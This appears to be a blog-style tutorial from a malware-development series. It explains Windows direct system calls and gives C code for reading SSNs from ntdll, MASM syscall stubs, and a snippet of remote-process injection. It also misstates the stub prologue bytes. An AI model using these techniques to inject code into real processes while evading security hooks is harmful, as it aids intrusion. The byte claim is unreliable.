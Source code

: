 ```yaml
---
description: Finally I talk about sys calls :)
---
```


# Direct System Call

## Introduction

Understanding this flow is crucial when dealing with system calls, as they serve as the gateway between user-mode applications and the underlying Windows kernel. As you know, the workings of Windows API functions follow a layered approach, where calls to functions like `OpenProcess` in `kernel32.dll` are redirected to `kernelbase.dll`, which then invokes the corresponding NTAPI function—such as `NtOpenProcess` in `ntdll.dll` which leads to a system call (`syscall`), transitioning execution into kernel mode where the actual operation is performed.

So why bother with the stupid high level stuff , when we can directly do a syscall is what some _gato_ thought.

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption><p><em>What if I just syscall directly ?</em></p></figcaption></figure>

### Theory

Okay so I have given a brief in [this post](https://reze.gitbook.io/bin/winternal/system-calls), but to just give a gist of it, each system call is basically just a number called SSN (system service number) which is what the NTAPI passes to kernel mode where a table SSDT is used to look up for the correct function (SSR) for that SSN and it gets called to then the result being sent back to user mode. We don't need to dive deep into this for now. We can see a pattern in most of the NTAPI functions which would look similar to this

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

```nasm
mov r10, rcx
mov eax, [ssn]
test byte ptr ds:[addr], 1
jne there ----+
syscall       |
ret           |
int 2E  <-----+
ret
```

So the first thing it does is to save the value in `rcx` register to `r10`. This is required because, in x64 syscall convention, `rcx` is not preserved across the `syscall` instruction, so Windows stores it in `r10` for safe access. Then it moves the **SSN** to eax and does a test on a kernel variable, this is done in order to check if the system is x64 / x86 and based on that, the particular syscall is done (Older systems used `int 0x2E` for syscall) and the execution is passed to kernel mode.

### Direct System Calls

Okay so as we know that to invoke a syscall, an SSN is really important, so we would have to get the SSN for the NT functions we want to use. This can easily be done by getting the address of that NT function inside NTDLL. Since we know that every function starts with the `4C 8D B1 B8` hex, we can use this to our advantage and get the **SSN** for our function.  After which is just the same thing , setting up arguments & invoking the syscall.&#x20;

<pre class="language-c"><code class="lang-c">DWORD get_sysn(HMODULE ntHandle, LPCSTR fnName) {

    DWORD               ssn = 0;
    UINT_PTR    NtfnAddress = NULL;

    NtfnAddress = GetProcAddress(ntHandle, fnName);
    if ((PVOID)NtfnAddress == NULL) {
        warn("Resource Locator Failed with  @-->0x%d", GetLastError());
        return 0;
    }

    ssn = (DWORD)((PBYTE)(NtfnAddress + 0x4))[0];
    return ssn;
}

<strong>DWORD    dwNtOpenProcess = get_sysn(ntdllModule, "NtOpenProcess");
</strong>DWORD    dwNtAllocateVirtualMemory = get_sysn(ntdllModule, "NtAllocateVirtualMemory");
....
</code></pre>

Since we know what the first 4 bytes would be , we can directly skip through them and get the first byte after it (look at the pic ) which would be our SSN for the particular function. Also since the compiler doesn't know about these functions, we would have to tell it to look for it externally and write an assembly code with the same thing. I have created a [helper.h](https://github.com/ZzN1NJ4/Malware-Development/blob/main/isystemcalls/helper.h) and included every thing in it, like the structures / function prototypes etc, which are required.

{% code title="helper.h" %}
```c
extern NTSTATUS NtOpenProcess(
    OUT PHANDLE ProcessHandle,
    IN ACCESS_MASK DesiredAccess,
    IN POBJECT_ATTRIBUTES ObjectAttributes,
    IN PCLIENT_ID ClientId OPTIONAL
);
```
{% endcode %}

Then we also have to create an assembly file and link it with our project so that the compiler knows where to look for those functions.&#x20;

{% code title="sys.asm" %}
```nasm
.data
EXTERN dwNtOpenProcess:DWORD;
EXTERN dwNtAllocateVirtualMemory:DWORD;

.code
NtOpenProcess PROC
                mov r10, rcx
                mov eax, dwNtOpenProcess
                syscall
                ret
NtOpenProcess ENDP

NtAllocateVirtualMemory PROC
                mov r10, rcx
                mov eax, dwNtAllocateVirtualMemory
                syscall
                ret
NtAllocateVirtualMemory ENDP
....
END
```
{% endcode %}

after we have written our asm file, we would have to link it with our project , to do that right click on the project in solution explorer and add a build dependency -> masm. Then just make sure that the file sys.asm is being included in the build and is also of type "Microsoft Macro Assembler" (right click on file name -> properties)

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

Alright, now we have setup the assembly to run, all that's left is just the same NTAPI process injection. I dont want to fill this blog with a long code of me doing the same thing again so if you want to see it, you can check out the code in [my github](https://github.com/ZzN1NJ4/Malware-Development/blob/main/isystemcalls/main.c). Here's a snippet (as you can see this is very similar to the NTAPI implementation)

```c
STATUS = NtOpenProcess(&hProcess, PROCESS_ALL_ACCESS, &OA, &CID);
if (STATUS != STATUS_SUCCESS) {
    warn("NtOpenProcess failed with  @-->%d || STATUS @--0x%x", GetLastError(), STATUS);
    goto deadend;
}
....
STATUS = NtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, rBuffer, NULL, FALSE, 0, 0, 0, NULL);
....
STATUS = NtWaitForSingleObject(hThread, FALSE, NULL);

```

### Explanation

What happens here is that we first get the **SSN** of the functions and save it to respective variables. Then we use those same variable in the assembly file and once again use the `extern` keyword in the assembly so that the compiler knows to look for it in an external source (which is our C file).&#x20;

When we call the `NtOpenProcess` function, the compiler starts looking for it outside since we have defined it with the `extern` keyword and finds it in the assembly file and then invokes that function.

## References

* [https://redops.at/en/blog/direct-syscalls-vs-indirect-syscalls](https://redops.at/en/blog/direct-syscalls-vs-indirect-syscalls)
* [https://medium.com/@amitmoshel70/intro-to-syscalls-windows-internals-for-malware-development-pt-2-b8d88bb10eb9](https://medium.com/@amitmoshel70/intro-to-syscalls-windows-internals-for-malware-development-pt-2-b8d88bb10eb9)

